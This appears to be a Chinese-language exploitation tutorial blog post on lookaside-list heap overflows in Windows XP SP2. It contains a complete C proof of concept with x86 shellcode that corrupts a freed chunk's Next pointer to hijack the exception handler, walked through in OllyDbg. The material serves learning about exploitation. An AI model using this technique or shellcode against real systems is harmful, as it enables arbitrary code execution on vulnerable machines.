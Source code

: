```yaml
---
layout:		post
title:		利用Lookaside表进行堆溢出
author:		wooy0ung
tags:		
category:  	exploit
---
```



>[分析环境]  
>系统: Windows XP Professional sp2 x86  
>编译器: VC++ 6.0  
>调试器: OllyDbg 1.10  
>注意: 原版OD调试堆时有些问题, 建议用吾爱OD
<!-- more -->


### 0x00 前期准备

新建一个工程, 贴入以下代码

```
#include "stdafx.h"
#include <stdio.h>
#include <windows.h>

char shellcode[]=
"\xEB\x40\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x03\x00\x03\x00\x5C\x01\x08\x99"
"\xE4\xFF\x12\x00"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42\x08"
"\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03\x78\x3c"
"\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b\x34\xaf\x01"
"\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e\x08\x45\x78\x69"
"\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c\x6f\x8b\x7a\x1c\x01"
"\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x67\x20\x20\x01\x68\x79\x30\x75"
"\x6e\x68\x20\x77\x6f\x6f\x89\xe1\xfe\x49\x0b\x31\xc0\x51\x50\xff"
"\xd7";


int main(int argc, char* argv[])
{
	HLOCAL h1,h2,h3;
	HANDLE hp;

	hp = HeapCreate(0,0,0);
	h1 = HeapAlloc(hp,HEAP_ZERO_MEMORY,16);
	h2 = HeapAlloc(hp,HEAP_ZERO_MEMORY,16);
	h3 = HeapAlloc(hp,HEAP_ZERO_MEMORY,16);

	HeapFree(hp,0,h3);
	HeapFree(hp,0,h2);
	memcpy(h1,shellcode,300);

	h2 = HeapAlloc(hp,HEAP_ZERO_MEMORY,16);
	h3 = HeapAlloc(hp,HEAP_ZERO_MEMORY,16);
	memcpy(h3,"\x90\x1E\x3A\x00",4);

	int zero = 0;
	zero = 1/zero;
	printf("%d",zero);

	return 0;
}
```

OD附加上去, 单步到完成三次分配

![](/assets/img/exploit/2018-01-01-exploit-by-chunk-lookaside/0x00.png)

当释放h3, 快表头指向了h3

![](/assets/img/exploit/2018-01-01-exploit-by-chunk-lookaside/0x01.png)

当释放h2, 快表头->h2->h3, 后释放节点会优先链到接近快表头

![](/assets/img/exploit/2018-01-01-exploit-by-chunk-lookaside/0x02.png)
![](/assets/img/exploit/2018-01-01-exploit-by-chunk-lookaside/0x03.png)


### 0x01 exploit

执行memcpy覆盖h2的Next指针

![](/assets/img/exploit/2018-01-01-exploit-by-chunk-lookaside/0x04.png)

再次请求分配16 byte, 快表优先把靠近快表头的h2分配出去, 造成快表头->0x0012FFE4

![](/assets/img/exploit/2018-01-01-exploit-by-chunk-lookaside/0x05.png)

当仔请求分配时, 快表就把0x0012FFE4地址分配出去

![](/assets/img/exploit/2018-01-01-exploit-by-chunk-lookaside/0x06.png)

往h3指向地址写入shellcode地址

![](/assets/img/exploit/2018-01-01-exploit-by-chunk-lookaside/0x07.png)

触发异常, pwn~

![](/assets/img/exploit/2018-01-01-exploit-by-chunk-lookaside/0x08.png)

当然, 不调试直接运行还是要将基址改成0x00390000